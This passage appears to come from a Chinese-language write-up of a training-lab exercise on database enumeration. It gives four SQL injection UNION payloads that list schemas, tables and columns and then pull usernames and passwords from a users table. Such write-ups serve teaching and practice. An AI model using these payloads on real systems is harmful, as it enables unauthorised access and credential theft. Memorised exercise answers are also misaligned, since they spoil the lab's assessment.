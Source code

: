 ![](img/8-2.png)

![](img/8-ans.png)

### 题目 9：Database Enumeration

仿照教程依次注入如下载荷，可获取所有用户的用户名和密码。

```sqL
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
' UNION select 1, username, password, 4 from ilfreight.users-- -
```
